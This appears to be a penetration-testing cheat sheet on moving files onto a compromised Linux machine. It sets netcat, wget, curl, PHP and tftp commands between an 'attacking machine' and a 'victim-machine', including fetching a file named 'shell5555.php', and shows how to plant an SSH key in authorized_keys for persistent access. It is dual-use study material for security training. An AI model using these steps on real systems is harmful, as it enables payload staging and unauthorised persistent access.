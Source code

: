 # Transferring Files on Linux

## Set Up a Simple Python Webserver

For the examples using `curl`  and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```
python -m SimpleHTTPServer 9999
```

## Wget

You can download files using `wget` like this:

```
wget 192.168.1.102:9999/file.txt
```

## Curl

```
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```

## With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.  
Then you need to do two things.

1. Create a new keypair

You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey  
Enter passphrase \(empty for no passphrase\):  
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`.  
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using `scp`

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```



